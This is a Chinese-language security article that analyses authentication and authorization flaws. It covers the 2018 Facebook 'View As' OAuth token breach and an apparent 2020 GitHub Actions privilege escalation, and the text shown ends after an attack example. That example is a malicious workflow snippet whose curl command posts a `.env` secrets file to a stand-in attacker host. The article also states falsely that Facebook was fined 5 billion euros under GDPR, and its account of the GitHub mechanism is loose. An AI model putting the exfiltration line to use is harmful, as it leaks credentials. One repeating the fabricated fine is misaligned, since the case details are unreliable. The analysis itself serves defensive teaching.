 

# 认证与授权缺陷的案例分析

## 引言
认证与授权缺陷是Web安全领域的高危漏洞类型，常导致数据泄露、权限提升、业务逻辑绕过等严重后果。本文通过分析近五年内真实世界中的典型案例，揭示攻击者如何利用此类缺陷突破系统边界，并提供防御视角的深度解读。

---

## 案例一：Facebook OAuth令牌泄露（2018）

### 事件背景
2018年，攻击者利用Facebook OAuth实现缺陷，窃取超过5000万用户的访问令牌，导致大规模账户劫持。

### 漏洞分析
1. **认证逻辑缺陷**：  
   "View As"功能（允许用户查看个人主页的访客视角）未对生成的OAuth令牌实施有效的作用域限制。攻击者通过组合"View As"与视频上传功能触发令牌生成，获取高权限令牌。

2. **令牌生命周期管理缺失**：  
   泄露的令牌未设置短期有效期且缺乏撤销机制，导致攻击者长期维持访问权限。

### 攻击影响
- 攻击者通过令牌直接访问用户个人资料、好友列表及关联第三方应用数据
- 触发GDPR调查，Facebook被罚款50亿欧元

### 修复措施
- 实施令牌作用域动态验证机制
- 引入令牌绑定（Token Binding）技术关联客户端指纹
- 建立实时令牌吊销接口

---

## 案例二：GitHub权限提升漏洞（2020）

### 事件背景
GitHub Actions工作流中因授权策略错误，允许低权限用户通过特定Payload注入实现仓库级横向越权。

### 漏洞原理
1. **不安全的上下文传递**：  
   Pull Request事件触发的工作流默认继承目标分支的写入权限。攻击者在fork仓库中构造恶意`push`事件，劫持工作流执行环境。

2. **授权策略缺失**：  
   未对工作流执行者的来源仓库实施细粒度访问控制，允许跨仓库权限继承。

### 攻击演示
```yaml
# 恶意工作流片段
on: [push]
jobs:
  exploit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - run: |
          curl -X POST -d @/.env https://attacker-server.com
```
